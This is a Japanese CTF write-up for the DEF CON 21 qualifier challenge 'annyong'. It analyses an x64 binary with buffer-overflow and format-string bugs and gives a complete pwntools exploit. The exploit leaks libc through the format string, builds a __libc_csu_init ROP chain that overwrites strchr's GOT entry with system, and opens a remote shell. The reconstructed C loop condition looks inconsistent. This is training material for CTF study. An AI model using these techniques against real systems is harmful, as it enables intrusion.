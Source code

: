 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/defcon-21-quals-annyong/
  - /blog/2016/02/21/defcon-21-quals-annyong/
date: 2016-02-21T04:42:03+09:00
tags: [ "ctf", "writeup", "pwn", "defcon", "x64", "return-oriented-programming", "return-to-vuln", "libc-csu-init", "buffer-overflow" ]
---
```


# defcon 21 quals annyong

pwn会で。x64のrop問で解きたいものがあるが難しいので、その踏み台として持ってきたもの。

## [annyong](http://shell-storm.org/repo/CTF/Defcon-21-quals/annyong/)

### 準備

``` sh
$ file annyong
annyong: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=53cd09f49e09b946a74a1b345555bef4bce1f87a, stripped
$ checksec --file annyong
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   annyong
```

x64のrop。DEP PIEあり。RELRO SSPなし。libcなし。
使われていない関数がいくらかあるが、それらを除くと以下だけの小さなバイナリ。

``` c
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[0x800]; // rbp-0x810
    int done = 0; // rbp-0x4
    while (done != 0) {
        fgets(buf, 0x900, stdin); // buffer overflow
        if (strchr(buf, 'n')) {
            puts( "I don't think so...");
        } else {
            printf(buf); // format string atttack
            fflush(stdout);
        }
    }
}

int main(void) {
    vuln();
}
```

### 攻撃

1.  まず`printf`によるformat文字列攻撃で準備。
    -   `n`があると怒られるので読み取りしかでない。
2.  本命`fgets`によるbuffer-overflowからのrop。
    -   `__libc_csu_init`を使う。
        -   [x64でROP stager + Return-to-dl-resolve + \_\_libc\_csu\_init gadgetsによるASLR+DEP回避をやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/07/31/010158)
    -   `strchr`のgotに`system`のそれを書き込んで戻ってくる。
    -   書き込みには`read`を使う。
3.  `fgets`に`/bin/sh\0\n`を送ると`strchr`経由で`system("/bin/sh", "n")`が叩かれてshellが起動。
    -   直接ropで`system`しないのは第1引数に大きな値を渡せないから。(`mov edi, r13d`であるため)

### 実装

`__libc_csu_init`注意点

-   `__libc_csu_init`の末尾で実質的にpopするのは`[rsp+0x8]`からなので8byteの埋め草が要ること。
-   `call r12`でなく`call [r12]`であること。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
parser.add_argument('--leak-libc')
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./annyong')
vuln_ofs = 0x108c
buf_rbpofs = 0x810 # buf is at rbp-0x810
buf_ix = 6 # buf is shown by %6$p
libc_csu_init_a_ofs = 0x1180
libc_csu_init_b_ofs = 0x1196

p = remote(args.host, args.port)

p.sendline('%%%d$p %%%d$p' % (buf_ix + buf_rbpofs / 8, buf_ix + buf_rbpofs / 8 + 1))
saved_rbp, ret = map(lambda x: int(x, 16), p.recvline().split())
rbp = saved_rbp - 0x10  # main+0, push rbp
bin_base = ret - 0x1127 # main+0x9
log.info('current rbp: ' + hex(rbp))
log.info('bin base: ' + hex(bin_base))
buf = rbp - buf_rbpofs

s = ''
while len(s) < 8:
    p.sendline('%7$sABCD' + p64(bin_base + elf.got['__libc_start_main'] + len(s)))
    s += p.recv().split('ABCD')[0] or '\0'
libc_start_main = u64(s[:8])
log.info('__libc_start_main: ' + hex(libc_start_main))

if True:
    libc = ELF('/usr/lib64/libc.so.6')
    libc_base = libc_start_main - libc.symbols['__libc_start_main']
    system_ofs = libc.symbols['system']

if args.leak_libc:
    l, r = map(int, args.leak_libc.split(','))

    payload = ''
    payload += '\0'
    payload += 'A' * (buf_rbpofs - len(payload)) # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['write']) # r12 -> call [r12]
    payload += p64(1) # STDOUT_FILENO # r13 -> edi
    payload += p64(libc_start_main + l) # r14 -> rsi
    payload += p64(r - l) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    p.sendline(payload)
    print p.recvall()

else:
    payload = ''
    payload += 'A' * buf_rbpofs # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['read']) # r12 -> call [r12]
    payload += p64(0) # STDIN_FILENO # r13 -> edi
    payload += p64(bin_base + elf.got['strchr']) # r14 -> rsi
    payload += p64(8) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    payload += 'A' * 8 * 7
    payload += p64(bin_base + vuln_ofs) # ret
    p.sendline(payload)

    time.sleep(0.1)
    p.send(p64(libc_base + system_ofs))

    time.sleep(0.1)
    p.sendline('/bin/sh\0')

    time.sleep(0.1)
    p.sendline('ls')
    p.interactive()
```
